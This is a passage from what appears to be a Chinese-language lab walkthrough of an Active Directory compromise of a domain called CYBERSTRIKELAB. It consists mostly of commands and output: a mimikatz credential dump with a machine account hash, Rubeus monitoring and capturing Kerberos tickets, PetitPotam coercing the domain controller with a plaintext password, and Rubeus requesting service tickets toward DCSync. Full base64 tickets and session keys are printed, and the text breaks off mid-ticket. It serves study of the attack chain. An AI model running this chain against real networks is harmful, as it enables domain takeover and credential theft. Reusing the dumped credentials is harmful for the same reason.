Domain            : CYBERSTRIKELAB
Logon Server      : (null)
Logon Time        : 2025/5/28 2:40:00
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : CYBERWEB$
         * Domain   : CYBERSTRIKELAB
         * Password : (null)
        kerberos :
         * Username : cyberweb$
         * Domain   : CYBERSTRIKELAB.COM
         * Password : 06 f5 ed 59 db bf 08 e9 f7 64 a7 d1 76 e9 44 ba de 38 b3 14 d2 95 f5 da 1f bc 24 60 0d 2b f4 c0 53 49 f2 8e 0c 34 cd 2a 24 4f 4a d8 a7 1f dd 19 1d a5 bf 02 94 d4 fb 3b 9d b6 23 28 75 e9 87 8b f9 7d 20 da 7f a7 d0 d3 23 81 95 15 e4 35 08 b2 b7 43 7b 40 8c 4a e4 37 33 2e 8d 38 84 b0 3e 05 2a bb 02 0a 2c 32 79 4e a8 10 6f db 22 b9 4e 2e b9 ca b8 11 ea 0b d7 ed f0 0a 1b 10 9a 99 25 d8 7c eb ed 4e fb 19 44 97 09 06 80 5a 23 03 9f 0b 04 fb b9 8c 2f b4 ad 69 84 bd b1 57 78 42 ad 5f 37 f5 bf ad c1 44 35 c6 67 78 7c 0a e9 0b 91 71 55 35 70 2d e8 38 f8 c3 bb b0 94 3a d5 31 9e ea d4 0d 0d 0c de fc b2 f2 b7 d4 a2 d9 1e f1 9b 9a 5e 74 36 32 61 1e f5 f1 5d 42 48 ae 21 25 3e 19 18 00 df c3 31 1e a2 61 a0 3e a5 46 ae f3 33 47
        ssp :
        credman :

mimikatz #

mimikatz #
```

cyberweb$ : 6d1ad68cae119f25682ba8b02e801817

## petipam

```
C:\Users\Administrator\Desktop>.\Rubeus.exe monitor /interval:5  /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs

[*] 2025/5/28 4:02:15 UTC - Found new TGT:

  User                  :  CYBERWEB$@CYBERSTRIKELAB.COM
  StartTime             :  2025/5/28 2:43:45
  EndTime               :  2025/5/28 12:43:45
  RenewTill             :  2025/6/4 2:43:45
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

    doIFYDCCBVygAwIBBaEDAgEWooIEUjCCBE5hggRKMIIERqADAgEFoRQbEkNZQkVSU1RSSUtFTEFCLkNPTaInMCWgAwIBAqEeMBwb
    BmtyYnRndBsSQ1lCRVJTVFJJS0VMQUIuQ09No4ID/jCCA/qgAwIBEqEDAgECooID7ASCA+io8Feb6h2ekL8JL1xlxdInfv8sBmlb
    mZ5/uXeuHTemMHDISvWn67TgFh0e71ciPD76xHF3DGxjx3ErFYpiMz20zSuk+8vqZ2C/avAVd5tWyMQuhrZg7QqlitXFoh6BCPAg
    1QRmkPYK3DDYWkymXEmRD9qsm+CfBn55CV+S877qh9cpftAsGHvvxLNfV2tgGepx7OFOf4CBSbwEClXTem+fQNqOHvp/oT9pg5dJ
    9p31l6xiLMZNIiGBdvQ9Yd0mP5LpZlrncaRBPoeicyPLAODprovdzhp8WSMt/Jjh3rdHhFyqzcy7eSvyKpDOq9PxB0d53Dfn1W+d
    aCZvtgdwfY+oSq0R90zATox7L4sd5tGSchIDmXgFBodSS7lF5wWHKaPn7S4MBqpT5Jh/yXnNURpua4LoAPM+/ShRFKEj/Wj7tcXf
    1R8WbUy7g+qaPhbrd+GYsn9w5hKaexM4mgDBaSEwF0u+WDRcsdCrQSJKlp3+BpJRneO8ylyEZ5w1EaPyRETLJ9f8CM3ibCcS4xpr
    +f8B1eV1GUT4FuiiVMLVZJimdEE7RqURn3QMyonhg+3yD12qyKwIyB4rb3+WvPdgUrntREZlZZdI8vWeRwK57pg+8KSzsL5VqUKE
    45UevyQB1xFX34/KhgK5UhveWLkGIpvVOdU7zHuS6ivufVlByfwiiJQEIE90kQBoW1dZnor7B35J56je1Sujb4bpitd88iBGpnpe
    3zgs3fcZmc4RYCA4aukZHeo6134dVCNjlriYHmCC65P2N0XbP/MNLHknBHlSt+v7BHRoiZs8Wzj8cSPO5SMZqKpKuaMbA+wfRylN
    xP2IlBDvcpfv9Bv6lqfqVXhONctIyaxVduyUb3Lr/RJe5tzfMXZ3ZsGWztPYQyBbMSQswWcUGux3HKREb4WDhR3gxKjr8StLp10l
    Z+PIbDvyndtx3f4Z8JNn2oeHoAnFtd1KrT31fAcCZQmrXiRYITZ2HG4j+TjjeW8nDFqwKnuy+ybMZSjb5wW+7AEMpMsH5kB1mUbo
    sZzIwMIXoTic+zjZ8aLI+uANbzN6HJhIW+krYp81s5VvWFl8r8Ps5mqaw+iyUjH1YqA2eMnNSPTA6nj7x/FmICKULjhwOs7l6XZ0
    vn61EMR9OA93QkFmn6neiHZtqDObVG+x1QYdhFSwCJtbvPKGNMH4/9tlKi2KLDGPx8ZLKY+kOCI/q/FPsiTvleWlLWivmvbXXM1v
    L9uar9fc14m6MFtPBD7e2Zvo7g51Ovd/cFqO7pNx/bCDOjmQtRHND4eR7hM2Md8DRIbe+4B0o+G2+fqQlLFkswlTpdfm72kVyjgy
    j2PSo4H5MIH2oAMCAQCige4Eget9gegwgeWggeIwgd8wgdygKzApoAMCARKhIgQgg84Q9ZqnCnvjjS2B/wozhvlpjJZDJgJdpPF1
    leuFAcWhFBsSQ1lCRVJTVFJJS0VMQUIuQ09NohYwFKADAgEBoQ0wCxsJQ1lCRVJXRUIkowcDBQBA4QAApREYDzIwMjUwNTI3MTg0
    MzQ1WqYRGA8yMDI1MDUyODA0NDM0NVqnERgPMjAyNTA2MDMxODQzNDVaqBQbEkNZQkVSU1RSSUtFTEFCLkNPTaknMCWgAwIBAqEe
    MBwbBmtyYnRndBsSQ1lCRVJTVFJJS0VMQUIuQ09N

[*] 2025/5/28 4:02:15 UTC - Found new TGT:

  User                  :  CYBERWEB$@CYBERSTRIKELAB.COM
  StartTime             :  2025/5/28 10:44:57
  EndTime               :  2025/5/28 20:44:57
  RenewTill             :  2025/6/4 10:44:57
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

    doIFYDCCBVygAwIBBaEDAgEWooIEUjCCBE5hggRKMIIERqADAgEFoRQbEkNZQkVSU1RSSUtFTEFCLkNPTaInMCWgAwIBAqEeMBwb
    BmtyYnRndBsSQ1lCRVJTVFJJS0VMQUIuQ09No4ID/jCCA/qgAwIBEqEDAgECooID7ASCA+hwYIJnbJRVBPYsSVprb/fw5EZe0iv/
    9ohHTSVpkTzJPnq2knUiZbbg4c2rN5NEVknL941LdBKif1mlFBeG2Fwm7BgLoWT4C57FQW+d+MjBDKhgBgMsoG8TXa69M33t96qM
    iqLZbRDo2eYQbJjyDBhjihlEjCl8gc4yXNEhOu5mXDxEZMwMH9ca/WEzWG47ksMYIArP4eLw0f4zxu4pI2ncT4JqU4GpgQu5jGJv
    +qbcBJQu4B8Y0WB15TJEcgMXHCEvr0rwBA/uRYBCoU7o7nXd0rrvXDDbO/8oEB/cb39IaUWyQYRglV7v6B9UPkjsGGoD9hI/xAOX
    B7lMTCbQFeJAZl4nxIhfn0riyjEQWT6uoRNVaeoFAWxMUinVEfosRVVRDcW2Y4z4B5VuX8tpaurNpcbpGk8paOar86Q+ATHlR3md
    9DGUjpIcIWL+JQK4xPjjy3Uu/t3cIc+povTeNZRWvkTkYose92kXONx1MR7d1gVkYRY/j5RtPFSAzAYDLPCVvCm7BqIPWn1l+utB
    c5sHOASR/OC0hB4x0NAk7su/YQ7QCN9SfDXEO1DrWc4OS+eFMZKsFvsl3vB0X2D1DvPgjEYZPMxbpK6t91oUq4pGr4m19W9WGWCI
    /gnBt7BMJgyoWkeRxdxaHh2GabS3mvgoLJGBjb2yc6/zSreT2xRI6kUpEKfuobriQo49zvbbkBLfDwZkBRF04raettCjJfj/lq3+
    Th9qE5r6BfOC62NPc4KUSC9gvXh3Lm70tDR8j//BWfLe5Ul8bCXGlA5Ih0zCPiLG8YI0brP8Ua9NSc6NwzBLS2ofm0hFFoJMfedC
    MuNx7gL3JoeRVUwvIk1YLBjYMZ6tb8yBR/Ldi9BKGT4QfiX3/+fhrwewyS5ZNWBBzaSy2Vi6Yfa5HG5N8XPgba6vi5ot7rDzHXM/
    N2PDab2CL+9PBfWCv+DUaJS7KcG3csNZyl2LOB8QBNEpBLtQcrndBFPNYZ2AJVilLZZz37rsyngfrRdKVEl8T0CURhABy75EYRi/
    RGxPSJYkz87vmgG+T9Zs7yCMov3QIwZkgDhvijp7pLiTjhyJ5prOVPsvSM+qNuA5iwtXz7bFRFKygDVN3dKRqMVT92gLtljvYTr6
    g/xKVjexhOtMNMHDPbtBAgX5uJuEye4mx94Cqs9qTjENdr7ia6GhZn+dE4KoUAm95BxqRtCsx2iqGaIF7sa/jHxrastau41XC7xJ
    qs9VE01NS9Bbmper85DOh2dzK02watvkgE2FawlQdOfejXjeVEtHzgnG0h9MdAMwD/hcvVo4966TMkAe+Y30juOQhmi0WwUFCr/d
    WkPvo4H5MIH2oAMCAQCige4Eget9gegwgeWggeIwgd8wgdygKzApoAMCARKhIgQg2iPoAR1E8fkfbAz6Krh9YmshBEsZNX/zWYnD
    umglWt+hFBsSQ1lCRVJTVFJJS0VMQUIuQ09NohYwFKADAgEBoQ0wCxsJQ1lCRVJXRUIkowcDBQBA4QAApREYDzIwMjUwNTI4MDI0
    NDU3WqYRGA8yMDI1MDUyODEyNDQ1N1qnERgPMjAyNTA2MDQwMjQ0NTdaqBQbEkNZQkVSU1RSSUtFTEFCLkNPTaknMCWgAwIBAqEe
    MBwbBmtyYnRndBsSQ1lCRVJTVFJJS0VMQUIuQ09N

[*] Ticket cache size: 2

[*] 2025/5/28 4:02:20 UTC - Found new TGT:

  User                  :  DC$@CYBERSTRIKELAB.COM
  StartTime             :  2025/5/28 2:42:44
  EndTime               :  2025/5/28 12:42:37
  RenewTill             :  2025/6/4 2:42:37
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFRDCCBUCgAwIBBaEDAgEWooIEPDCCBDhhggQ0MIIEMKADAgEFoRQbEkNZQkVSU1RSSUtFTEFCLkNPTaInMCWgAwIBAqEeMBwb
    BmtyYnRndBsSQ1lCRVJTVFJJS0VMQUIuQ09No4ID6DCCA+SgAwIBEqEDAgECooID1gSCA9KTvSs605rgfSgF+4+LnHLbAFkCtxWF
    0T2bd3toFD54T/3FD0Yaqe5aV+YE6RCYhdtjtau0b1WvoPUx2m/L9P9wcs5veWB48cuDS16igG87EcrZvKQvGJu/mnTZU3kPQv3S
    lMZNDZtE0LNxfNk9GyVyDC1XCP+iry5HW20tQZOBlClavwskDl+NjuUmaP2gMdDdwSAbB/4G0f8JPH12UHDaDG/IucWPiVk10HqG
    D2LVJD8u3LkOeHlyg87OmOXgdxyblcgsG74IiKqsfdM6G/9cKjnQ1tjEPLhQCU71H3O1DstizxkXU62rNIMHhuHwxHH1/lChHkXp
    6H8xSwnMreo1kzmO0nuvcCbWzhip3jocgGTPoDmP077uC93czWIFMU5AHtTwMRNS8uFK5QPxO9DBCP1k3eqaSs2rOxBMQTSi/5Fi
    iUwwCJm8RnY8M4iD7m16EFgy9hXBxCXsNWk0BHXkZ8DB3JxaJ9vBgXf7aQm4JQTvANVrCnjK+mJLC20qpGX17UxPBsL4xKp86PLd
    0PCLHvhiYVQjlmOciv+j6I2q80PHzVVVfiSzHp2DGofVd3M4gZdVvu6GVKXn2EHwYmy9fZ5tyv7+wE8KI6KE86gVNKfignVeNXi6
    tTF9EXYX2zRqiD6tZJTzqmOYC6ja6XpGdQosB50thGzJvC2opxlANOzlY9UQdGTGcwzTBNwcan10zWrGyanmSbT4Au3cbsfytaS0
    5ehZyjiol8cRTj20AUbBoEjznsqBvVe7cnV4w9scAowQCxunX4p4nCwrl1+dIHlM/N/+NbvLLdnsKGBtL68wgfvTZ/qegLchbwCJ
    3tC4rQslSaiBYm6vs0RTqs++Ud1xAa05MQSlfqK4VjRujNO4AE9+DdLrJFpAJAhFuVheedIfsryK8YU43sr+hK2P5NDwmArBHeUd
    JDTsCnkDvP0rE0B6uVYP7rFCfUFOd+V5q/aFclk3cueWz3dBpmXyu3B+aLdGEhqytVE7j0dBQAlGCLz8TPOh3eltN2Tl8fszCYqe
    fxOShqgMYffx/eHDkhBqxn7lEmDA1NSgRotMGJaGqMbqdV6q/mO/LcYJwbi2Ahlkxhhn/3Eo9Ho/L2fDgYq1+deaTKkaoc70d7ze
    rwXHf11e5rwnfW8hOAQP86a4Mb4T32lIn1qvDeH6M5J3Ov9r4izKfNINZGW/xHwsrzm6WqRo1BNfw8sdSPEt2vEji2DG4tUORGSh
    vRPkengOEs/xRbUUPHb/sF7lfvPrL/K0jTxglBRB2cc/TPyCJXTwZm9biS1yTHVSpY65gieY8UyjgfMwgfCgAwIBAKKB6ASB5X2B
    4jCB36CB3DCB2TCB1qArMCmgAwIBEqEiBCBXygTZvMaqz6OscNKlBZnX1O8V8H5+IcAKU1pIUdwV6KEUGxJDWUJFUlNUUklLRUxB
    Qi5DT02iEDAOoAMCAQGhBzAFGwNEQySjBwMFAGChAAClERgPMjAyNTA1MjcxODQyNDRaphEYDzIwMjUwNTI4MDQ0MjM3WqcRGA8y
    MDI1MDYwMzE4NDIzN1qoFBsSQ1lCRVJTVFJJS0VMQUIuQ09NqScwJaADAgECoR4wHBsGa3JidGd0GxJDWUJFUlNUUklLRUxBQi5D
    T00=

[*] Ticket cache size: 3

```

# 

```
❯ python3 PetitPotam.py cyberweb dc -dc-ip 10.0.0.60  -d cyberstrikelab.com -target-ip 10.0.0.60  -u tom -p 'qwe!@#123'
/Users/test/Desktop/tool/PetitPotam/PetitPotam.py:23: SyntaxWarning: invalid escape sequence '\ '
  | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __

              ___            _        _      _        ___            _
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_|
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""|
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'

              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)

                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN

Trying pipe lsarpc
[-] Connecting to ncacn_np:dc[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

使用PetitPotam 强制dc$ 向 cyberweb$ 发起认证，成功拿到了 DC$ 的票据

```
C:\Users\Administrator\Desktop>.\Rubeus.exe triage

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

Action: Triage Kerberos Tickets (All Users)

[*] Current LUID    : 0x225f1

 ------------------------------------------------------------------------------------------------------------------
 | LUID     | UserName                       | Service                                       | EndTime            |
 ------------------------------------------------------------------------------------------------------------------
 | 0x3e4    | cyberweb$ @ CYBERSTRIKELAB.COM | krbtgt/CYBERSTRIKELAB.COM                     | 2025/5/28 12:43:45 |
 | 0x3e4    | cyberweb$ @ CYBERSTRIKELAB.COM | cifs/DC.cyberstrikelab.com                    | 2025/5/28 12:43:45 |
 | 0x2bf831 | DC$ @ CYBERSTRIKELAB.COM       | krbtgt/CYBERSTRIKELAB.COM                     | 2025/5/28 12:42:37 |
 | 0x3e7    | cyberweb$ @ CYBERSTRIKELAB.COM | krbtgt/CYBERSTRIKELAB.COM                     | 2025/5/28 20:44:57 |
 | 0x3e7    | cyberweb$ @ CYBERSTRIKELAB.COM | LDAP/DC.cyberstrikelab.com                    | 2025/5/28 20:44:57 |
 | 0x3e7    | cyberweb$ @ CYBERSTRIKELAB.COM | ldap/DC.cyberstrikelab.com/cyberstrikelab.com | 2025/5/28 20:44:57 |
 | 0x3e7    | cyberweb$ @ CYBERSTRIKELAB.COM | cifs/DC                                       | 2025/5/28 20:44:57 |
 ------------------------------------------------------------------------------------------------------------------

C:\Users\Administrator\Desktop>
```

## dcsync

```
C:\Users\Administrator\Desktop>.\Rubeus.exe asktgs  /ticket:doIFRDCCBUCgAwIBBaEDAgEWooIEPDCCBDhhggQ0MIIEMKADAgEFoRQbEkNZQkVSU1RSSUtFTEFCLkNPTaInMCWgAwIBAqEeMBwbBmtyYnRndBsSQ1lCRVJTVFJJS0VMQUIuQ09No4ID6DCCA+SgAwIBEqEDAgECooID1gSCA9KTvSs605rgfSgF+4+LnHLbAFkCtxWF0T2bd3toFD54T/3FD0Yaqe5aV+YE6RCYhdtjtau0b1WvoPUx2m/L9P9wcs5veWB48cuDS16igG87EcrZvKQvGJu/mnTZU3kPQv3SlMZNDZtE0LNxfNk9GyVyDC1XCP+iry5HW20tQZOBlClavwskDl+NjuUmaP2gMdDdwSAbB/4G0f8JPH12UHDaDG/IucWPiVk10HqGD2LVJD8u3LkOeHlyg87OmOXgdxyblcgsG74IiKqsfdM6G/9cKjnQ1tjEPLhQCU71H3O1DstizxkXU62rNIMHhuHwxHH1/lChHkXp6H8xSwnMreo1kzmO0nuvcCbWzhip3jocgGTPoDmP077uC93czWIFMU5AHtTwMRNS8uFK5QPxO9DBCP1k3eqaSs2rOxBMQTSi/5FiiUwwCJm8RnY8M4iD7m16EFgy9hXBxCXsNWk0BHXkZ8DB3JxaJ9vBgXf7aQm4JQTvANVrCnjK+mJLC20qpGX17UxPBsL4xKp86PLd0PCLHvhiYVQjlmOciv+j6I2q80PHzVVVfiSzHp2DGofVd3M4gZdVvu6GVKXn2EHwYmy9fZ5tyv7+wE8KI6KE86gVNKfignVeNXi6tTF9EXYX2zRqiD6tZJTzqmOYC6ja6XpGdQosB50thGzJvC2opxlANOzlY9UQdGTGcwzTBNwcan10zWrGyanmSbT4Au3cbsfytaS05ehZyjiol8cRTj20AUbBoEjznsqBvVe7cnV4w9scAowQCxunX4p4nCwrl1+dIHlM/N/+NbvLLdnsKGBtL68wgfvTZ/qegLchbwCJ3tC4rQslSaiBYm6vs0RTqs++Ud1xAa05MQSlfqK4VjRujNO4AE9+DdLrJFpAJAhFuVheedIfsryK8YU43sr+hK2P5NDwmArBHeUdJDTsCnkDvP0rE0B6uVYP7rFCfUFOd+V5q/aFclk3cueWz3dBpmXyu3B+aLdGEhqytVE7j0dBQAlGCLz8TPOh3eltN2Tl8fszCYqefxOShqgMYffx/eHDkhBqxn7lEmDA1NSgRotMGJaGqMbqdV6q/mO/LcYJwbi2Ahlkxhhn/3Eo9Ho/L2fDgYq1+deaTKkaoc70d7zerwXHf11e5rwnfW8hOAQP86a4Mb4T32lIn1qvDeH6M5J3Ov9r4izKfNINZGW/xHwsrzm6WqRo1BNfw8sdSPEt2vEji2DG4tUORGShvRPkengOEs/xRbUUPHb/sF7lfvPrL/K0jTxglBRB2cc/TPyCJXTwZm9biS1yTHVSpY65gieY8UyjgfMwgfCgAwIBAKKB6ASB5X2B4jCB36CB3DCB2TCB1qArMCmgAwIBEqEiBCBXygTZvMaqz6OscNKlBZnX1O8V8H5+IcAKU1pIUdwV6KEUGxJDWUJFUlNUUklLRUxBQi5DT02iEDAOoAMCAQGhBzAFGwNEQySjBwMFAGChAAClERgPMjAyNTA1MjcxODQyNDRaphEYDzIwMjUwNTI4MDQ0MjM3WqcRGA8yMDI1MDYwMzE4NDIzN1qoFBsSQ1lCRVJTVFJJS0VMQUIuQ09NqScwJaADAgECoR4wHBsGa3JidGd0GxJDWUJFUlNUUklLRUxBQi5DT00= /service:cifs/dc /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/dc'
[*] Using domain controller: DC.cyberstrikelab.com (10.0.0.60)
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIFSDCCBUSgAwIBBaEDAgEWooIEUjCCBE5hggRKMIIERqADAgEFoRQbEkNZQkVSU1RSSUtFTEFCLkNP
      TaIVMBOgAwIBAqEMMAobBGNpZnMbAmRjo4IEEDCCBAygAwIBEqEDAgEFooID/gSCA/qrxceqgof6rM2P
      Givl9Rvch24loyQ0rmTOpbWd3lO28RsGEHURXWlITPBKW8u+CsyCsxLZ3jAgg82YXk0HNL6WXmdnsb3e
      gb4yRDVwCZMyh7QYzwnSKuN+xpMJDHtMIkEL6BL/wdcP0hWU7hJxyjHj34bS3rwnyvKHoKFsD0pv5iR2
      WM8qVulWO04dOD93KDeSdpDDiMUFzWVMz32N2xtqW7M1yaRMz6MiKBz71NPmRGkLyVLSUggwUUfi1xNl
      D3SJkOgexj1ko0L0h3SuUYbJdqVR9idduHab9y1duZk3OEXkNGxwRnwWHLC8usHYUKFtwUoRHAfO9DdN
      gHTgWBUJvQc874NXOQ1g0dedpjdZVNq66AgQVHlUxIHWqR7NThpsSfxahBA7aMYgbD9m1aosGDoQ/iAI
      vt2JoHqYcQPwDlPOMWRfAJ96mQkgqF/4Pz8yW9zVlhAC3VDtuc45mtx51JWUNlnXq/ayOLdZlxvQtGsm
      uIUa8xqs5wWLfYR4BJZIOvEoL15TxUma3zw7FcZyGsEdzQPFy2mhVJ6qm0CPQEarxVVkZrSN+rPz86D8
      KnQLi7eeoHcYRmotynHCqPaNF2GIVr6BC/B7r06JvzdFLzKhhOso3W0gMv6iS1/tAsbSZ3nf+I7/XekN
      IpD3uWHGRcmzx7nQHD5Q3iV8hBaDZmyAYuje+KR7Y8sJ3jCPnaacBeo1kk20/qSC1914ZWT5hw8GH8c3
      2pctCa1+YoXfPe850z60KT9GbaDXWs1HrHTWcE0xHAyqq1G+IqmhqNTzirTpv2QmVlrcdO4yeRlV66Z1
      VcWlpnrFaGWjWI2lx1ujb42ZXmHnjG62I2e6FTYAIhFvp4PAbelhYwli+X5FnfcB5zN/z5UrTHSs5B2T
      qjHa97m35i0m82XBeYvKB8U97nNGpDimY4E6JrKqExB7BuCtlk/bDUB7mY6BsJQuqjlieVj9NXVGMfsA
      Ok1jJy3PfzSEb7ui+wWYf8K6bbbxVbdGIQsmayYsADGUExw3PMG2bFDP4ZE1zF+oX4wxODS4eEXSI+5W
      3RqXhj+rod2w5FLUdrc25ZsSZi1UAx/3cIVn9UwlWBFe/RQTR3xUBu6aY62fW68UGPM7jtAQI2OAHqKY
      /72xqgidK5Npd+ZYWzNNT4Lw16uD3YQbTmW4LR1h7jw2g1XWvvbS0Aqw8Q/IgBK/ik/NURWYgTE7BWKY
      PgcsPCVKfY/u0vnFcrgUcHGISr4IC4FcpmPsAhkb0JmyFvcdaP6l8UuDmR2OcWgIlPi4ra8BZDNjoqRa
      obQyOEFoScXtZ5htTUUW0QeJIj0t+35GPMXSIuNBFQJhV1RVu880RlovvQO4vETTo4HhMIHeoAMCAQCi
      gdYEgdN9gdAwgc2ggcowgccwgcSgKzApoAMCARKhIgQgF5cOxOWcvcasXMiYZOzoLNiNiNT/euL1MqrR
      x1RJNZ+hFBsSQ1lCRVJTVFJJS0VMQUIuQ09NohAwDqADAgEBoQcwBRsDREMkowcDBQBgpQAApREYDzIw
      MjUwNTI4MDQwOTAyWqYRGA8yMDI1MDUyODA0NDIzN1qnERgPMjAyNTA2MDMxODQyMzdaqBQbEkNZQkVS
      U1RSSUtFTEFCLkNPTakVMBOgAwIBAqEMMAobBGNpZnMbAmRj

  ServiceName              :  cifs/dc
  ServiceRealm             :  CYBERSTRIKELAB.COM
  UserName                 :  DC$ (NT_PRINCIPAL)
  UserRealm                :  CYBERSTRIKELAB.COM
  StartTime                :  2025/5/28 12:09:02
  EndTime                  :  2025/5/28 12:42:37
  RenewTill                :  2025/6/4 2:42:37
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  F5cOxOWcvcasXMiYZOzoLNiNiNT/euL1MqrRx1RJNZ8=

```

```
C:\Users\Administrator\Desktop>.\Rubeus.exe asktgs  /ticket:doIFRDCCBUCgAwIBBaEDAgEWooIEPDCCBDhhggQ0MIIEMKADAgEFoRQbEkNZQkVSU1RSSUtFTEFCLkNPTaInMCWgAwIBAqEeMBwbBmtyYnRndBsSQ1lCRVJTVFJJS0VMQUIuQ09No4ID6DCCA+SgAwIBEqEDAgECooID1gSCA9KTvSs605rgfSgF+4+LnHLbAFkCtxWF0T2bd3toFD54T/3FD0Yaqe5aV+YE6RCYhdtjtau0b1WvoPUx2m/L9P9wcs5veWB48cuDS16igG87EcrZvKQvGJu/mnTZU3kPQv3SlMZNDZtE0LNxfNk9GyVyDC1XCP+iry5HW20tQZOBlClavwskDl+NjuUmaP2gMdDdwSAbB/4G0f8JPH12UHDaDG/IucWPiVk10HqGD2LVJD8u3LkOeHlyg87OmOXgdxyblcgsG74IiKqsfdM6G/9cKjnQ1tjEPLhQCU71H3O1DstizxkXU62rNIMHhuHwxHH1/lChHkXp6H8xSwnMreo1kzmO0nuvcCbWzhip3jocgGTPoDmP077uC93czWIFMU5AHtTwMRNS8uFK5QPxO9DBCP1k3eqaSs2rOxBMQTSi/5FiiUwwCJm8RnY8M4iD7m16EFgy9hXBxCXsNWk0BHXkZ8DB3JxaJ9vBgXf7aQm4JQTvANVrCnjK+mJLC20qpGX17UxPBsL4xKp86PLd0PCLHvhiYVQjlmOciv+j6I2q80PHzVVVfiSzHp2DGofVd3M4gZdVvu6GVKXn2EHwYmy9fZ5tyv7+wE8KI6KE86gVNKfignVeNXi6tTF9EXYX2zRqiD6tZJTzqmOYC6ja6XpGdQosB50thGzJvC2opxlANOzlY9UQdGTGcwzTBNwcan10zWrGyanmSbT4Au3cbsfytaS05ehZyjiol8cRTj20AUbBoEjznsqBvVe7cnV4w9scAowQCxunX4p4nCwrl1+dIHlM/N/+NbvLLdnsKGBtL68wgfvTZ/qegLchbwCJ3tC4rQslSaiBYm6vs0RTqs++Ud1xAa05MQSlfqK4VjRujNO4AE9+DdLrJFpAJAhFuVheedIfsryK8YU43sr+hK2P5NDwmArBHeUdJDTsCnkDvP0rE0B6uVYP7rFCfUFOd+V5q/aFclk3cueWz3dBpmXyu3B+aLdGEhqytVE7j0dBQAlGCLz8TPOh3eltN2Tl8fszCYqefxOShqgMYffx/eHDkhBqxn7lEmDA1NSgRotMGJaGqMbqdV6q/mO/LcYJwbi2Ahlkxhhn/3Eo9Ho/L2fDgYq1+deaTKkaoc70d7zerwXHf11e5rwnfW8hOAQP86a4Mb4T32lIn1qvDeH6M5J3Ov9r4izKfNINZGW/xHwsrzm6WqRo1BNfw8sdSPEt2vEji2DG4tUORGShvRPkengOEs/xRbUUPHb/sF7lfvPrL/K0jTxglBRB2cc/TPyCJXTwZm9biS1yTHVSpY65gieY8UyjgfMwgfCgAwIBAKKB6ASB5X2B4jCB36CB3DCB2TCB1qArMCmgAwIBEqEiBCBXygTZvMaqz6OscNKlBZnX1O8V8H5+IcAKU1pIUdwV6KEUGxJDWUJFUlNUUklLRUxBQi5DT02iEDAOoAMCAQGhBzAFGwNEQySjBwMFAGChAAClERgPMjAyNTA1MjcxODQyNDRaphEYDzIwMjUwNTI4MDQ0MjM3WqcRGA8yMDI1MDYwMzE4NDIzN1qoFBsSQ1lCRVJTVFJJS0VMQUIuQ09NqScwJaADAgECoR4wHBsGa3JidGd0GxJDWUJFUlNUUklLRUxBQi5DT00= /service:host/dc /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'host/dc'
[*] Using domain controller: DC.cyberstrikelab.com (10.0.0.60)
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIFSDCCBUSgAwIBBaEDAgEWooIEUjCCBE5hggRKMIIERqADAgEFoRQbEkNZQkVSU1RSSUtFTEFCLkNP
      TaIVMBOgAwIBAqEMMAobBGhvc3QbAmRjo4IEEDCCBAygAwIBEqEDAgEFooID/gSCA/rA6o2qimqqwk2J
      DHAA5Am8zfcgaMKkvFDmz1w+QJhQ/4qvuMxIaWy1ATRHbBwnqVLZp10aC966xZ2AAf2rLwNGJqV+SI2p
      aaLe1p3Q35XcFRBEuBxAD5Z7BrfYVlAD1oZSYL98ZGDF3Lka/8aRoga49thRdzq/M4ZwEssFRpBctyOH
      z9TAt9ELpWNSqeVpLBChhdy1u4SVhogLcEE7YQOvBuBtWHRPf5kq50iLwie+/6ibgJw2z60QdhcHvhJv
